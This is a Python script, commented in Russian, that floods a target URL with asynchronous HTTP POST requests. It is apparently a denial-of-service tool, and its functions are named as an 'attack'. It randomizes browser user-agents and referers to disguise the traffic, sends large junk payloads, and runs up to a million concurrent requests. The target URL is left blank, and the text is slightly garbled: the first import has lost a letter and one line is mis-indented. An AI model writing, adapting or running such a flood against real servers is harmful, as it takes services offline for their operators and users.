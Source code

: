 mport random
import aiohttp
import time
import asyncio

# Целевой сервер
URL = 

# Генерация случайных заголовков
def random_headers():
    user_agents = [
        'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
        'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
        'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36'
    ]
    referers = [
        "https://www.google.com/",
        "https://www.bing.com/",
        "https://yandex.ru/",
        "https://duckduckgo.com/"
    ]
    
    return {
        "User-Agent": random.choice(user_agents),
        "Referer": random.choice(referers),
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "keep-alive"
    }

# Рандомные данные в запросе для нагрузки
def random_data():
    return {"data": "X" * random.randint(10000, 20000)}

# Асинхронный запрос
async def attack_request(session):
    headers = random_headers()
    data = random_data()

    try:
        async with session.post(URL, headers=headers, timeout=10, data=data) as response:
            print(f"Request sent! Status: {response.status}")
    except asyncio.TimeoutError:
        print("Request timeout!")
    except Exception as e:
        print(f"Error: {e}")

# Запуск мощной атаки
async def run_attack(total_requests, concurrent_requests):
    async with aiohttp.ClientSession() as session:
        while total_requests > 0:
            tasks = [attack_request(session) for _ in range(min(concurrent_requests, total_requests))]
            await asyncio.gather(*tasks)
 total_requests -= concurrent_requests

# Главная функция атаки
def start_attack():
    total_requests = 100000000000000
    concurrent_requests = 1000000

    start_time = time.time()
    asyncio.run(run_attack(total_requests, concurrent_requests))
    print(f"Attack finished in {time.time() - start_time} seconds.")

if __name__ == "__main__":
    start_attack()
